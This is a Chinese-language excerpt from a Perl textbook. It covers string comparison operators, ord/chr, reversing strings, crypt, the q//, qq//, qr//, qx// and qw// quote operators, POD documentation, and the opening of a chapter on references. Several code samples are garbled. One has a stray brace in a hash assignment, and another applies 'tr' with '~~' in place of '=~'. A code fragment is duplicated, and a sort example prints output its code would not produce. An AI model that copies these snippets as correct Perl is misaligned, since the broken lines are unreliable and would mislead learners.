| --- | --- |
| eq | 如果左操作数等于右操作数则返回真 |
| ne | 如果左操作数不等于右操作数则返回真 |
| cmp | 根据左操作数小于、等于或大于右操作数，返回值-1、0或1 |
| lt | 如果左操作数小于右操作数则返回真 |
| gt | 如果左操作数大于右操作数则返回真 |
| le | 如果左操作数小于或等于右操作数则返回真 |
| ge | 如果左操作数大于或等于右操作数则返回真 |

> *提示：请记住，Perl有两套不同的比较运算符——数值型和字符串型——因为使用错误的运算符可能成为非常难以发现的问题之源。*

本示例使用 **cmp** 运算符在 **sort** 函数中比较字符串：

```
$hash{fruit} = apple;
$sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $key (sort {myfunction($a, $b)} keys %hash) {
    print "$key => $hash{$key}\n";
}

sub myfunction
{
    return (shift(@_) cmp shift(@_));
}
```

*drink => bubbly*
*fruit => apple*
*sandwich => hamburger*

如果你不小心混淆了数值型和字符串型运算符，就会遇到问题；例如，如果你使用字符串运算符来比较数字，就会得到以下结果（在这种情况下，代码会很轻松地告诉我们“5大于10”）：

```
$s1 = 5;
$s2 = 10;

if ($s1 gt $s2) {  #wrong!
    print "$s1 is greater than $s2";
}
```

5 is greater than 10

另一方面，对于 `==` 运算符来说，字符串看起来像0，因此这段比较苹果和橙子的代码告诉我们它们是相同的：

```
$s1 = "apples";
$s2 = "oranges";

if ($s1 == $s2) {
    print "$s1 are the same as $s2";
}
```

apples are the same as oranges

## 字符串处理：使用 ord 和 chr 访问 Unicode 值

> “某些语言，”编程正确性沙皇说，“比如 C，允许你将字符串中的字符作为数值，也就是字节值来处理。在 Perl 中你能这样做吗？”“不行，”你说，“不能直接这样做，但我可以使用 `ord` 和 `chr`。”

Perl 在许多方面可以互换地处理字符串和数字，但与某些语言不同的是，它对单个字符并不这样做。有时，直接处理 Unicode 值很重要（例如当您使用 `pack` 和 `unpack` 时）。要直接处理字符的 Unicode 值，可以使用 `ord` 和 `chr`。

`ord`（ord 代表 ordinal）函数返回表达式第一个字符（仅第一个）的 Unicode 值；如果省略表达式，`ord` 使用 `$_`。通常，您可以这样使用 `ord`：

```
ord EXPR
ord
```

看一个简单的例子：

```
print ord 'A';
```

65

请注意，**ord** 只对您传递给它的第一个字符有效，因此此示例给出相同的结果：

```
print ord 'ABC';
```

65

另一方面，**chr** 函数返回对应于您传递给它的 Unicode 数字的字符；如果没有传递数字，**chr** 使用 `$_`。您可以这样使用 **chr**：

```
chr NUMBER
chr
```

看一个简单的例子：

```
print chr 65;
```

A

以下是一个不必要复杂代码的示例：

```
print chr(ord "A");
```

A

请注意，如果您想一次将多个字符转换为 Unicode 值，或将多个 Unicode 值转换为字符，使用 **pack** 和 **unpack** 会更容易。我可以像这样将字符串中的字符转换为 Unicode 值数组：

```
$s = "Hello";
@a = unpack("C*", $s);
print join(", ", @a);
```

72, 101, 108, 108, 111

并且，我可以像这样将 Unicode 值列表**打包**成字符串中的字符：

```
print pack("c3", 65, 66, 67);
```

ABC

新手程序员（NP）出现了并喊道：“救命！”你问：“怎么了，NP？”“我想用密码加密一些数据，”NP 说，“这意味着需要逐个处理字符串中的字符。在 Perl 中我该怎么做？”“嗯，”你说，“有好几种方法。”“我就知道你会这么说，”NP 说。

Perl 喜欢将字符串视为一个整体单元，但有时您可能需要逐个字符地处理。我将在此提供几种方法，处理这个字符串：

```
$s = "Hello";
```

例如，您可以这样使用 **split** 来创建字符数组：

```
@a = split (//, $s);
print "@a\n";
```

> H e l l o

或者，您可以使用模式匹配来提取单个字符（我在这里使用 **s** 修饰符，以便模式匹配也能匹配换行符）：

```
while ($s =~ /(.)/gs) {print "$1 "};
print "\n";
```

> H e l l o

或者，您可以解包字符串以获取字符串中的 Unicode 值列表：

```
foreach (unpack("C*", $s)) {print chr($_), " "};
print "\n";
```

> H e l l o

或者，您可以使用显式循环和 **substr** 来逐个获取字符，如下所示：

```
for ($loop_index = 0; $loop_index < length($s); $loop_index++) {
    print substr($s, $loop_index, 1) , " ";
}
```

> H e l l o

此列表并不详尽。我相信您自己也能想出更多方法，但它确实表明了一些可能性。使用这些构造，您可以访问字符串中的所有单个字符。

## 字符串处理：反转字符串

“在 C 中，”编程正确性沙皇说，“我只需将字符串的所有字符推入栈中然后弹出它们，就能反转一个字符串。”“那么麻烦？”你问，“在 Perl 中，你只需使用 **reverse** 函数。”“哦，”沙皇说。

要反转一个字符串，您可以像这样使用 **reverse** 函数：

```
$string = "Hello!";

$reversed = reverse($string);
print "$reversed\n";
```

!olleH

当然，如果您愿意，也可以先将字符串的元素推入栈中，然后再弹出它们：

```
foreach (split (//, $string)) {push @a, $_};
while(@a) {print (pop (@a))};
print "\n";
```

!olleH

而且，您甚至可以像这样更有创意地做：

```
while ($string =~ /(.)/gs) {unshift @a, $1};
print @a;
```

!olleH

## 字符串处理：使用 **crypt** 加密字符串

大老板说：“幸好我让你加密了公司的账目。昨晚有些工业间谍在附近转悠，但他们现在走了。你是怎么加密账目的？”“我使用了 Perl 的 **crypt** 函数，”你说。

# 第8章 格式与字符串处理

> “很好，”大老板说，“现在把它们解密。”“呃，”你说，“目前没有已知的方法可以做到。”大老板的雪茄掉了。你问：“有什么问题吗？”

您可以像这样使用 **crypt** 函数来加密字符串：

```
crypt TEXT, SALT
```

这里，**TEXT** 是您要加密的文本，**SALT** 是一个由两个字符组成的字符串，用于给加密添加一点额外的“盐”。

请注意，**crypt** 是一个单向函数；您无法解密使用 **crypt** 加密过的内容。那么它有什么用呢？一方面，此函数在 Unix 系统上加密密码，这意味着密码可以存储为加密字符串；当您输入密码时，它会被加密并与存储的版本进行比较。

此示例展示了 **crypt** 的用处。在这种情况下，我将创建一个文字游戏，用户需要猜测一个单词。为避免让用户打印 Perl 源代码从而看到单词，我将先使用一个小脚本对其进行加密，如下所示：

```
$text = "Hello";
$encrypted = crypt $text, "AB";
print $encrypted;
```

```
AB/u0sC7P93EI
```

请注意，加密字符串的前两个字母是 **SALT** 值。要将字符串与此加密字符串进行比较，我必须只使用此 **SALT** 值，并对新字符串使用 **crypt**。以下是它在文字游戏中的工作方式。请注意，我从加密字符串中提取 **SALT**，然后将其与 **crypt** 函数一起用于检查用户的猜测：

```
$encrypted = "AB/u0sC7P93EI";

$salt = substr($encrypted, 0, 2);

print "Guess the word: ";

while(<>) {
    chomp;
    if ($encrypted eq (crypt $_, $salt)) {
        print "You got it!";
        exit;
    } else {
        print "Nope.\n";
    }
}
```

```
print "Guess the word: ";
    }
}
```

> Guess the word: this
Nope.
Guess the word: that
Nope.
Guess the word: other
Nope.
Guess the word: Hello
You got it!

另一方面，如果您想要一种既能加密也能解密的加密方法，请查看第4章中的“按位异或：^”主题。或者，您可以做一些简单的事情，以一种*非常*低安全性的方式进行加密和解密：

```
$text = "hello there!";

print "$text\n";

$text ~~ tr/a-z/d-za-c/;

print "$text\n";

$text ~~ tr/d-za-c/a-z/;

print "$text\n";
```

> hello there!
khoor wkhuh!
hello there!

| 相关解决方案： | 所在页码： |
| --- | --- |
| 按位异或：^ | 164 |

# 字符串处理：使用引用运算符

新手程序员又回来了。“我想初始化一个数组，”NP 说，“我应该用 **q//** 还是 **qw//**？”“看情况，”你说。“我就知道你会这么说，”NP 说。


在 Perl 中处理字符串的方法之一是使用引号操作符，您可以在表 8.2 中找到它们。请注意，除了该表中所示的 `[` 和 `]` 之外，您还可以使用其他分隔符（通常使用 `/` 和 `/`）；事实上，如果您使用 `(` 和 `)`、`[` 和 `]`，或 `{` 和 `}`，Perl 会跟踪您进行的任意深度的嵌套。

您可以在 **q** 操作符和引号字符之间使用空格——*除非*您使用 **#** 作为引号字符，因为当您在 **#** 和引号操作符之间留有空格时，**#** 可能会被视为注释；例如，`q #text#`。

另请注意，某些 **q** 构造会插值其参数，如表 8.2 所示，这意味着以 **$** 或 **@** 开头的变量会被插值。而且，您还可以在插值字符串中使用表 8.3 中看到的转义字符。

## 表 8.2 引号操作符。

| 引号 | q 构造 | 含义 | 是否插值 |
|--------|-------------|-------|--------------|
| ' ' | q[ ] | 字面量 | 否 |
| " " | qq[ ] | 字面量 | 是 |
| | qr[ ] | 模式 | 是 |
| `` ` `` | qx[ ] | 命令 | 是 |
| | qw[ ] | 单词列表 | 否 |

## 表 8.3 转义字符。

| 转义字符 | 含义 |
|------------------|-------|
| \\" | 双引号 |
| \\t | 制表符 |
| \\n | 换行符 |
| \\r | 回车符 |
| \\f | 换页符 |
| \\b | 退格符 |
| \\a | 响铃符（铃声） |
| \\e | 换码符 |
| \\033 | 八进制字符 |
| \\x1b | 十六进制字符 |
| \\c[ | 控制字符 |
| \\l | 将下一个字符转为小写 |

**表 8.3** 转义字符*（续）*。

| 转义字符 | 含义 |
|---|---|
| **\u** | 将下一个字符转为大写 |
| **\L** | 转为小写直到 **\E** |
| **\U** | 转为大写直到 **\E** |
| **\E** | 结束大小写修改 |
| **\Q** | 引用非单词字符直到 **\E** |

我将在这里逐一介绍引号操作符。

### q//

您使用 **q//** 创建一个单引号、字面量字符串。这样，您可以轻松处理包含引号且您希望保留这些引号的字符串，因为 **q//** 会自动对其进行转义：

```
$text = q/"I said, 'no.'"/;
print $text;

"I said, 'no.'"
```

### qq//

您使用 **qq//** 创建一个双引号、可插值的文本字符串。如果您有一个字符串包含引号，您希望自动转义它们，但同时又希望插值变量，那么这个功能非常有用。考虑这个例子：

```
$string = "no.";
$text = qq/"I said, '$string'"/;
print $text;

"I said, 'no.'"
```

### qr//imosx

从 Perl 5.005 开始，您可以使用 **qr//** 来创建和存储已编译的正则表达式。正如我们在第 6 章中看到的，如果您想要一个已编译模式的数组，您可以这样创建（传递给 **qr//** 的字符串在必要时会被插值）：

```
@patterns =
(
    qr/\bis\b/,
    qr/\bthe\b/,
    qr/\bbut\b/,
    qr/\ba\b/,
    qr/\bnone\b/,
);
```

现在，您可以像这样使用那些预编译的正则表达式，其中我遍历它们所有，看看当针对用户输入进行测试时，哪一个匹配：

```
while (<>) {

    for ($loop_index = 0; $loop_index < $#patterns; $loop_index++) {

        if(/$patterns[$loop_index]/) {
            print "Matched pattern $loop_index!\n";
        }
        else {
            print "Didn't match pattern $loop_index.\n";
        }

    }
}
```

当用户输入 "Here is a test." 时，程序运行如下：

```
%perl matchmaker
Here is a test.
Matched pattern 0!
Didn't match pattern 1.
Didn't match pattern 2.
Matched pattern 3!
```

以下是您可以与 **qr//** 一起使用的可用选项：

- **i**—不区分大小写的匹配
- **m**—支持多行
- **o**—仅编译模式一次
- **s**—仅支持单行
- **x**—使用扩展正则表达式

### qx//

反引号引号操作符 **qx//** 会在必要时插值您传递给它的内容，然后将结果字符串作为系统命令执行。Shell 通配符、管道和重定向会被识别。

在这个例子中，我在 Unix 中执行 **ls** 命令以获取当前目录的文件列表：

```
$ls = 'ls';
print qx/$ls/;

a.pl
b.pl
c.pl
d.pl
e.pl
f.pl
```

您也可以直接使用反引号操作符以相同的方式执行此操作，如下所示：

```
$ls = 'ls';
print `$ls`;
```

在 MS-DOS 中，此示例可能如下所示，使用 **dir** 命令：

```
$dir = 'dir';
print qx/$dir/;

Volume in drive C has no label
Volume Serial Number is 3741-1402
Directory of C:\perlbook\code

.              <DIR>        04-01-02  7:25p .
..             <DIR>        04-01-02  7:25p ..
A         PL            147  04-01-02  7:26p A.PL
B         PL             81  04-01-02  7:53p B.PL
C         PL             95  04-01-02  8:11p C.PL
D         PL             50  04-01-02  8:28p D.PL
E         PL             27  04-01-02  8:25p E.PL
F         PL             78  04-01-02 10:32a F.PL
G         PL            231  04-01-02 11:52a G.PL
```

您传递的字符串如何求值取决于您所在的系统，因此请注意，使用 **q//** 意味着您可能无法在操作系统之间移植代码。（注意前一个示例在 Unix 和 MS-DOS 中必须使用不同的命令。）

使用反引号也是一个臭名昭著的安全问题，特别是如果您将用户输入的字符串视为可执行的系统命令，因此请小心。更多详细信息，请参阅关于 CGI 安全的第 22 章。

### qw//

这个操作符 **qw//** 可能是引号操作符中最受欢迎的一个。它按空格拆分字符串，并返回该字符串中的单词列表。实际上，您可以完全用 **split** 函数来模拟 **qw//**；以下两行的工作方式完全相同：

```
qw/Now is the time./;
split(' ', q/Now is the time/);
```

此示例展示了 **qw//** 最流行的用途之一——初始化数组：

```
@name = qw(soap blanket shirt pants plow);
@category = qw(home home apparel apparel farm);
@subcategory = qw(bath bedroom top bottom field);

@indices = sort {$category[$a] cmp $subcategory[$b]
    or $category[$a] cmp $subcategory[$b]} (0 .. 4);

foreach $index (@indices) {
    print "$category[$index]/$subcategory[$index]: $name[$index]\n";
}

apparel/bottom: pants
apparel/top: shirt
home/bath: soap
home/bedroom:  blanket
farm/field: plow
```

使用此操作符的两个常见错误是用逗号分隔 **qw//** 中的单词，以及在多行字符串中添加注释（如果您犯了这些错误，**-w** 开关将显示警告）。例如，此示例旨在打印 **Perl**，但使用了逗号来分隔字母，结果如下：

```
@a = qw/P, e, r, l/;
print @a;

P, e, r, l
```

## POD：简单老文档

> “该死，”新手程序员说，“现在我的程序 SuperDuperHugeCode 完成了，我必须给它写文档。”“嗯，”你说，“如果你一直用 POD 格式给它加注释，现在就已经完成了。”“POD？”新手问。“简单老文档，”你说。“嗯，”新手说，“告诉我更多。”

POD 是一种用于文档的格式化语言，旨在使其易于创建多种不同格式的文档。您不直接阅读 POD 本身；相反，您对 POD 文件运行 POD 过滤器或转换器，以创建各种格式的帮助文件。例如，转换器 pod2text 将 POD 文件转换为格式化的 Unicode 文本，pod2latex 用于 LaTeX 文档准备系统，pod2man（用于 nroff 和 troff 等 Unix 程序）创建 Unix 手册页，而 pod2html 创建 HTML 格式的帮助页面。您还可以在 CPAN 上找到其他转换器，例如 pod2fm、pod2ps、pod2ipf 和 pod2texi。

您可以像处理普通文档一样直接在 Perl 代码中使用 POD，当您想要创建文档时，您可以直接对您的 Perl 源代码文件运行 POD 转换器。Perl 解释器会忽略您 Perl 程序中的 POD。

这就是 POD 的全部内容；它的设计旨在使文档格式化变得简单，允许您将此类文档翻译成许多不同的格式。那么 POD 文件是什么样子的？看看这个例子，一个我称之为 p.pod 的文件：

```
=head1 Simulation of Named Characters

=head2 This example uses hashes.

This example:

=over 4
```


# 第 8 章：格式与字符串处理

你使用 POD 指令来创建 POD。所有 POD 指令都以等号 **=** 开头，后跟一个标识符。下面的列表展示了当前可用的 POD 指令：

- **=head1** *heading*—指定一级标题
- **=head2** *heading*—指定二级标题
- **=item** *text*—指定列表中的一项
- **=over** #—指定缩进
- **=back**—取消缩进
- **=cut**—结束 POD
- **=pod**—暂停解析，直到遇到 **=cut**
- **=for** *label*—设置格式化器样式
- **=begin** *label*—开始格式化器样式
- **=end** *label*—结束格式化器样式

**=pod** 指令告诉 Perl 编译器停止将文本当作代码处理，直到下一个 **=cut** 指令。你可以使用该指令，或者一个标题指令，来告诉 Perl 你正在文件中包含 POD。

这些指令 **=head1** 和 **=head2** 创建一级和二级标题，非常类似于 **\<H1\>** 和 **\<H2\>** HTML 标签。

你使用这些指令来创建列表。**=over** 指令会根据你使用的翻译器而略有不同，但通常它会按你指定的空格数缩进文本，例如 **=over 4**。**=back** 指令取消缩进，**=item** 指令指定一个列表项。你可以用类似 **=item \*** 的指令给列表项加上项目符号，或者用类似 **=item 1.**、**=item 2.** 等的指令添加编号。有关示例，请参见本章后面“POD：在 Perl 代码中嵌入 POD”这一主题。

> **提示：** *你不应在 **=over**/**=back** 块之外使用 **=item**，并且在这样的块中至少要有一个 **=item**。*

**=for**、**=begin** 和 **=end** 指令允许你直接将文本传递给特定的格式化器。**=for** 指令表示下一个段落采用 **=for** 之后第一个单词所指定的格式，如下所示：

```
=for html
<p> Welcome to my Perl code! </p>
```

**=begin** 和 **=end** 指令一起工作。它们非常像 **=for**，但不是只标记一个段落，而是将从 **=begin** 到 **=end** 之间的所有文本都标记为采用给定格式。

当你通过 pod2text 之类的翻译器运行 p.pod 时，你会得到这种格式化输出：

```
%pod2text p.pod
Simulation of Named Characters
  This example uses hashes.

     This example:

     1   Shows how to set up two named parameters

     2   Shows how to set up defaults for arguments
```

你也可以使用如下命令将 pod2text 的输出重定向到文件：**pod2text p.pod > p.txt**。我们将在本章末尾（“POD：在 Perl 代码中嵌入 POD”中）看到如何使用 pod2html，以及如何把 POD 像普通注释一样嵌入到你的 Perl 代码中。事实上，如果你查看 Perl 自带或来自 CPAN 的模块代码，你会发现它们充满了 POD——这些模块的 Perl 文档就是这样创建的。

现在，让我们专注于实际编写 POD。

> **提示：** 借助众多可用的翻译器，你只需在一个 POD 文件中编写文档；然后就可以将其转换为多种不同格式，从 Unix 手册页到 PostScript 文档，从纯文本到 HTML——这正是使用 POD 的强大之处之一。另一个使用 POD 的原因是它设计得易于使用。

## POD：使用 POD 指令创建 POD

“好吧，”新手程序员说道，“你到底怎么创建 POD？”“嗯，你首先使用 POD 指令将文档划分为命令段落，然后……”“打住，”那位新手说，“用代码给我看看。”

## POD：使用 POD 命令格式化文本

> 所以你用 POD 来格式化文档？”新手程序员问道。“没错，”你说。“嗯，”那位新手说，“我想创建带有斜体的精美文档，我能做到吗？”“当然可以，”你说。

你可以使用 POD 命令来格式化文本并创建链接。表 8.4 展示了这些 POD 命令及其作用。

现在，考虑这个示例。在这种情况下，我将在 POD 文件中像这样使用 **I\<\>** 命令：

```
=head1 Simulation of Named Characters

=head2 This example uses I<hashes>.
```

通过 pod2html 翻译器运行后（参见下一个主题），**I\<\>** 会被转换为 HTML **\<EM\>** 标签，如下所示：

```
<!-- $Id$ -->
<HTML><HEAD>
<CENTER><TITLE>a.pl</TITLE>
</HEAD>
<BODY></CENTER><P><HR>

<H1>
<A NAME="a.pl_simulation_0">
Simulation of Named Characters</A>
</H1>
<P>
<H2> This example uses <EM>hashes</EM>.</H2>
```

| POD 命令 | 含义 |
| --- | --- |
| B\<*text*\> | 粗体文本 |
| C\<*code*\> | 字面代码 |
| E\<*escape*\> | 命名字符，例如 HTML 转义，如 E\<lt\> = \< |
| F\<*file*\> | 用于文件名 |
| I\<*text*\> | 斜体文本 |
| L\<"*sec*"\> | 链接到本手册页中的某个节 |
| L\<*name*"*sec*"\> | 链接到另一个手册页中的某个节 |
| L\<name/ident\> | 链接到手册页中的某个条目 |
| L\<name\> | 链接到一个手册页 |
| S\<text\> | 文本包含不间断空格 |
| X\<index\> | 索引条目 |
| Z\<\> | 零宽字符 |

## POD：在 Perl 代码中嵌入 POD

> “好吧，”新手程序员说道，“我的 POD 文本已经准备好了。现在，我该如何把它放进 Perl 代码中？”“很简单，”你说，“直接放进去就行。Perl 解释器会忽略它，你可以使用各种 POD 翻译器来生成各种格式的文档。”

要在 Perl 程序中嵌入 POD，请在开头以 =head1 命令开始 POD，并以 =cut 命令结束。这样，Perl 就会忽略 POD 文本。

> **提示：** 如果你把 POD 放在文件末尾，并且使用了 Perl 的 \_\_END\_\_ 或 \_\_DATA\_\_ 指令，请务必在第一个 POD 指令前放置一个空行。

看看这个示例——一个可运行的 Perl 脚本，以 POD 开头，这部分 POD 实际上就是该脚本的文档：

```
=head1 Simulation of Named Characters

=head2 This example uses hashes.

This example:

=over 4

=item 1

Shows how to set up two named parameters

=item 2

Shows how to set up defaults for arguments

=cut
```

```
sub addem
{
    my %hash =
    (
        OPERAND1 => 2,
        OPERAND2 => 3,
        @_,
    );

    return $hash{OPERAND1} + $hash{OPERAND2};
}

print "The result is: " . addem(OPERAND1 => 3);
```

当你在 Perl 中运行这个名为 a.pl 的文件时，会得到以下结果：

```
%perl a.pl
```

> *结果为：6*

另一方面，如果你通过 pod2text 之类的翻译器运行 a.pl，你将看到格式化后的文档：

```
%pod2text a.pl
```

> *命名字符模拟*
> *本示例使用哈希。*
>
> *本示例：*
>
> *1   展示如何设置两个命名参数*
>
> *2   展示如何为参数设置默认值*

你也可以使用其他 POD 翻译器，例如 pod2html，像这样：

```
%pod2html a.pl
```

> *正在根据 a.pl 创建 a.pl.html*

该命令会创建一个名为 a.pl.html 的 HTML 文件，其内容如下：

```
<!-- $Id$ -->
<HTML><HEAD>
<CENTER><TITLE>a.pl</TITLE>
</HEAD>
<BODY></CENTER><P><HR>

<H1>
<A NAME="a.pl_simulation_0">
Simulation of Named Characters</A>
</H1>
<P>
<H2>
<A NAME="a.pl_this_0">
This example uses hashes.</A>
</H2>
This example:
<P>
<OL>
<LI>Shows how to set up two named parameters
<P>
<LI>Shows how to set up defaults for arguments
<P>
</OL>

</BODY>
</HTML>
```

你可以在 Netscape Navigator 中查看这个 HTML 文档，如图 8.1 所示。



## 图 8.1 将 POD 转换为 HTML。

# 第 9 章：引用

| 如果你需要快速解决以下问题： | 参见页码： |
| --- | --- |
| 创建硬引用 | 381 |
| 标量引用 | 382 |
| 数组引用 | 382 |
| 哈希引用 | 383 |
| 子程序引用 | 383 |
| Typeglob 引用 | 384 |
| 引用与自动激活 | 385 |
| 按引用传递 | 385 |
| 列表引用 | 386 |
| 其他引用类型 | 387 |
| 创建匿名数组引用 | 387 |
| 创建匿名哈希引用 | 389 |
| 创建匿名子程序引用 | 391 |
| 使用匿名哈希模拟用户自定义数据类型 | 392 |
| 使用符号表获取引用 | 393 |
| 解引用引用 | 395 |
| 使用箭头操作符解引用 | 398 |
| 省略箭头操作符 | 400 |
| 按引用传递和返回子程序参数 | 401 |
| 按引用传递 | 402 |
| 按引用返回 | 403 |
| 使用 **ref** 操作符确定引用类型 | 404 |
| 创建符号引用 | 406 |
| 禁用符号引用 | 408 |


| 如果你需要快速找到以下问题的解决方案： | 请参阅页码： |
|----------------------------------------|-----------|
| 避免循环引用 | 409 |
| 使用弱引用 | 410 |
| 行为类似哈希的数组：将数组引用用作哈希引用 | 410 |
| 在 Perl 中创建持久作用域闭包 | 412 |
| 从函数模板创建函数 | 413 |

## 深入解析

本章主要讲解引用。引用是 Perl 中相对较新的类型，最早在 Perl 5 中引入。它的工作方式与 C 等语言中的指针非常相似。顾名思义，引用指向一个数据项，而你对该引用进行*解引用（dereference）*，以访问它所指向的实际数据项。你可以把引用想象成内存中数据项的地址，通过这个地址可以直接访问该数据项。

借助引用，你可以在 Perl 中创建复杂的数据结构，我们将在第 16 章看到。事实上，引用在 Perl 的许多编程操作中都有应用，例如创建匿名数组、哈希或子例程，以及函数模板（本章都会介绍）。

引用在现代 Perl 代码中非常常见，因此深入理解它们的工作原理是掌握 Perl 的基础。当你想把多个数组或哈希传递给子例程，并希望它们保持各自独立时，你需要使用引用（如果不这样做，这些数组或哈希的元素会被压平成一个长列表）。利用传入的引用，你可以直接访问数组或哈希中的数据。在 Perl 中，通过调用类的构造函数来创建对象时，该构造函数通常返回的是对象的引用，而不是对象本身，这意味着引用也是进行 Perl 面向对象编程的基础。

Perl 中的引用分为两种：硬引用（hard references）和符号引用（symbolic references）。本章开头将先概述这两种类型。

## 硬引用

从概念上讲，你可以把硬引用看作保存了内存中某个数据项的地址。到目前为止，我们都是通过名称来引用数据项，并让 Perl 处理访问细节；但如果你知道数据项的内存位置，也可以通过这种方式访问它。

理解其中原理的最佳方式是举例说明，而不是空谈抽象概念，所以来看一个例子。假设你有一个名为 **$variable1** 的变量，你可以通过变量名直接操作其中存储的数据，如下所示：

```
$variable1 = 5;
```

你也可以通过引用访问该变量中的数据。要为 **$variable1** 创建硬引用，可以使用反斜杠运算符，如下：

```
$variable1 = 5;
$reference = \$variable1;
```

变量 **$reference** 现在保存了指向 **$variable1** 的引用（**$reference** 中实际存储的是 **$variable1** 的地址以及该变量的数据类型，即标量）。这种类型的引用称为*硬引用*。硬引用在代码中以标量形式存储。

你可以使用前缀运算符——$、@、%** 等——对引用进行解引用，即获取该引用所指向的值。在本例中，**$reference** 是指向标量的引用，因此我使用 **$** 前缀解引用符来访问该标量：

```
$variable1 = 5;
$reference = \$variable1;
print $$reference;
```

对引用进行解引用会返回原始数据值，因此你会得到如下结果：

```
$variable1 = 5;
$reference = \$variable1;
print $$reference;

5
```

如果查看引用本身呢？在这种情况下，你会看到 Perl 解释器数据空间中 **$variable1** 的实际地址和类型，类似如下：

```
$variable1 = 5;
$reference = \$variable1;
print $reference;

SCALAR(0x8a57d4)
```

这就是硬引用在 Perl 内部的存储方式。

> **提示：** 前面的例子有助于理解为什么 Perl 中的 **$** 被称为标量前缀解引用符——你用它来解引用指向标量的引用。这种方法不仅适用于 **$$reference** 这样的表达式，也适用于我们熟悉的 **$variable1** 这样的表达式。变量的实际名称——此处是 **variable1**——由前缀解引用符进行解引用，从而得到该变量中存储的对应值。

如果 $ 是标量解引用符，那么我们知道的其他前缀解引用符——@、% 和 &——呢？正如你所料，它们同样适用于引用，本章将会介绍。例如，假设我有如下数组：

```
@a = (1, 2, 3);
```

我可以按如下方式获取该数组的硬引用：

```
@a = (1, 2, 3);
$arrayref = \@a;
```

然后，我可以使用 @ 前缀解引用符来访问被引用的数组，如下：

```
@a = (1, 2, 3);
$arrayref = \@a;
print "@$arrayref";
```

```
1 2 3
```

现在我已经介绍了 Perl 硬引用的概念，接下来将讨论符号引用。

## 符号引用

*符号引用*并不保存数据项的地址和类型，而是保存该数据项的*名称*。（回想一下，你可以通过两种方式引用数据：按名称或按地址。）

> **提示：** 符号引用是硬引用的对应物，因此人们很自然地会把符号引用称为“软引用”，这个名字在一定程度上也说得通。但 Perl 社区不鼓励使用这个名称。

通过一个例子会更清楚。这里假设你有与上一个例子相同的变量：

```
$variable1 = 5;
```

你可以将该变量的名称赋给另一个变量，我称之为 **$variablename**（注意，我在这里*省略*了前缀解引用符 $，赋值的名称只是 **variable1**）：

```
$variable1 = 5;
$variablename = "variable1";
```

对该变量名进行解引用，会把这个名称变成指向该变量中数据的引用——即符号引用。使用 $ 标量解引用运算符，该过程如下：

```
$variable1 = 5;
$variablename = "variable1";
print "$$variablename\n";
```

5

现在，你可以看到符号引用的工作方式——通过名称，而不是内存位置。（请记住，名称不包含任何前缀解引用符。）

你能否将符号引用与其他前缀解引用符（例如 @）一起使用？当然可以。例如，我按如下方式获取一个数组的符号引用：

```
@a = (1, 2, 3);
$arrayref = "a";
```

然后，你可以使用 @ 前缀解引用符对符号引用进行解引用，从而访问数组本身，如下：

```
@a = (1, 2, 3);
$arrayref = "a";
print "@$arrayref";
```

1 2 3

除了 $、&、@、% 等前缀解引用符之外，你还可以使用箭头运算符 -> 对引用进行解引用。它是 Perl 中一个重要的运算符（称为*中缀解引用运算符*）。现在我们已经了解了硬引用和符号引用，接下来可以看看箭头运算符。例如，当你想用数组引用访问数组中的某个特定元素时，就会用到它。

## 箭头运算符

除了前缀解引用符之外，另一种常用的解引用运算符是箭头运算符。该运算符专为引用而设计，与你用于解引用 Perl 内置数据类型的前缀解引用符类似。

通过一个例子会更清楚。首先，我按如下方式获取一个数组的引用：

```
@array = (1, 2, 3);
$arrayref = \@array;
```

现在，假设我想访问数组中的第一个元素。我可以这样做：

```
@array = (1, 2, 3);
$arrayref = \@array;
print @$arrayref[0];
```

1

或者，我也可以使用箭头运算符完成同样的操作，而无需对整个数组解引用，如下：

```
@array = (1, 2, 3);
$arrayref = \@array;
print @$arrayref[0], "\n";
print $arrayref->[0];
```

1
1

前面的例子说明了箭头运算符的用途；当被引用项需要更多信息时，你可以将它与引用一起使用。例如，你可以将该运算符与数组引用结合使用，以指定数组中的索引；与哈希引用结合使用，以指定哈希中的键；或者与子例程引用结合使用，以指定要传递给子例程的参数列表。使用箭头运算符，你可以直接操作引用，而无需先将引用解引用为标准数据类型。你还可以使用箭头运算符在 Perl 中构建多维数组。关于箭头运算符的更多细节，我们将在本章稍后介绍。

箭头运算符为你提供了一种直接操作引用的方式，无需重新创建你所引用的数组或哈希。事实上，Perl 非常擅长让你直接操作引用——以至于你可以创建数组、哈希甚至子例程，并只存储对这些结构的引用，而无需为底层的数组、哈希或子例程命名。正因为它们没有名称，这些结构被称为*匿名*。

## 匿名数组、哈希和子例程

Perl 引用的一个强大之处在于，你可以使用引用而不是名称来创建数组、哈希和子例程。也就是说，你存储的只是指向它们的引用，而不是名称。


# 第9章 引用

本示例展示了如何创建一个匿名数组；这里，我把对该数组的引用存储在变量 **$arrayref** 中：

```
$arrayref = [1, 2, 3];
```

注意，我现在拥有的只是指向这个新数组的引用，而不是一个名称。这是对“你可以通过名称或位置来引用数据项”这一概念的逻辑延伸（我们已经见过如何为数据项命名了）。此外，你还可以创建只能通过引用来标识的数据项。

我可以通过对 **$arrayref** 进行解引用来访问数组中的数据，如下所示：

```
$arrayref = [1, 2, 3];
print $$arrayref[0];
```

1

此时，匿名数组和哈希对你来说可能只是一种不必要的复杂化，但使用这类匿名数据项是构建更复杂数据结构（如多维数组）的基础，我们将在本章后面略作介绍（更多细节请参阅第16章）。

概述到此结束；现在我将转入引用操作的细节。

### 即时解决方案

### 创建硬引用

> 嗯，新手程序员说，我需要从函数 ReturnsTwoArrays 中返回两个数组，但当我尝试这样做时，两个数组被合并成了一个长列表。我该怎么办？嗯，你可以说，可以返回指向这两个数组的硬引用。硬引用，新手程序员说，我该怎么创建它们？

你可以使用反斜杠操作符 `\` 来创建硬引用，这样创建的引用称为硬引用。

